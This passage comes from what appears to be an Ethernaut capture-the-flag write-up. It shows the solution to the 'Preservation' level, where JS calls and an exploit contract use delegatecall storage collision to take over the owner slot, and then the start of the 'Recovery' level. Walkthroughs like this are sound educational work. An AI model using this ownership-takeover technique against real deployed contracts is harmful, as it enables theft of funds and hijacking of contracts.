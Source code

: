 ```sol

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

This contract is using `delegatecall` to set the time, we can use this functionality to maliciously update the storage of the contract.

> #### Solution:
> - First we need to call the `setFirstTime` to set the slot 0 of the storage to our exploit contract address.
> 
> ```js
> await contract.setFirstTime("0xfcd4dc8e8aab4aad401ac4198af72aa3f172e6b5")
> /* replace 0xfcd4dc8e8aab4aad401ac4198af72aa3f172e6b5 with exploit contract address*/
> ```
> - Then after updating the slot 0 of the storage we can delegatecall to our exploit contract where we can update the slot 3 of the storage. Again,
> 
> ```js
> await contract.setFirstTime(player);
> /* Here the player has no significance you can pass any values you want*/
> ```
> 
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> contract preservationExp {
>     address public timeZone1Library;
>     address public timeZone2Library;  
>     address public owner;
>     
>     function setTime(uint _time) public {
>         owner = address(0xC009215b0c94debc7656502B015DFB9E51529A2D);
>     }
> }
> 
> ```
<hr>

## 17 Recovery
We need to recover the `0.001` ether sent to the lost contract.
#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}
```